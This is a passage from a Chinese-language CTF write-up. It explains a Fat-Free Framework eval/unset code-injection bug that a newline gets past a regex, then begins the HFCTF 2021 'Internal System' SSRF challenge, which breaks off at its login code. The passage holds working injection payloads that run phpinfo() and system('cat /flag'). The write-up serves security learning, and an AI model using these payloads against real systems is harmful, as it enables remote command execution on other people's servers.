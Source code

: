 这个也是考察了 Fat Framework 的 unset 逃逸任意命令执行的漏洞, 源码

```php
<?php
// Kickstart the framework
$f3=require('lib/base.php');
$f3->set('DEBUG',1);
if ((float)PCRE_VERSION<8.0)
    trigger_error('PCRE version is out of date');
// Load configuration
highlight_file(__FILE__);
$a=$_GET['a'];
unset($f3->$a);
$f3->run(); 
```

直接拿 github 上的 Fat Framework 源码发现会报错, 出错在 base.php 的 eval 处, 然后审计一下上面的正则表达式

```php
$val=preg_replace('/^(\$hive)/','$this->hive',
   $this->compile('@hive.'.$key, FALSE));     
eval('unset('.$val.');');
```

因为该 正则表达式 是单行匹配 `/^(\$hive)/`, 所以加了换行符以后下面的语句作为单独的一条 php 语句进行处理, 不会进入 `'@hive'.$key` 的拼接

![20210419214824484](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210419214824484.png)

少了换行符时

![20210419214839882](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210419214839882.png)

payload

```
?a='ricky'%0a);phpinfo();//
?a='ricky'%0a);system('cat /flag');//
```

## [虎符CTF 2021]Internal System

### 简述

```
开发了一个公司内部的请求代理网站，好像有点问题，但来不及了还是先上线吧（─.─||）
http://8.140.152.226:47921/
hint: /source存在源码泄露；/proxy存在ssrf
```

### 步骤

登陆端口

```js
router.get('/login', (req, res, next) => {
  const {username, password} = req.query;

  if(!username || !password || username === password || username.length === password.length || username === 'admin') {
    res.render('login')
  } else {
    const hash = sha256(sha256(salt + username) + sha256(salt + password))

    req.session.admin = hash === adminHash

    res.redirect('/index')
  }
})
```